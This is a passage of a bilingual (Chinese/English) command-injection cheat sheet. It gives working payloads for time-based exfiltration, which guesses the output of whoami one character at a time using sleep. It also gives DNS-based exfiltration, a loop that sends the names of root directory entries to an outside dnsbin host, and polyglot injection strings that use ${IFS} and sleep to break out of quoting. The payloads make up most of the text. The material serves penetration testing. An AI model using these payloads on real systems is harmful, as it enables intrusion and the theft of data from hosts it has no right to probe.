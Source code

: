 ## Time based data exfiltration - 基于时间的数据泄露

提取数据：逐个字符

```
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## DNS based data exfiltration - 基于DNS的数据泄露

基于工具 `https://github.com/HoLyVieR/dnsbin` 和dnsbin.zhack.ca`

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

在线检查基于DNS的数据泄露：

- dnsbin.zhack.ca
- pingb.in

## Polyglot command injection - 多语言命令注入

```
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## Backgrounding long running commands - 后台长时间命令运行
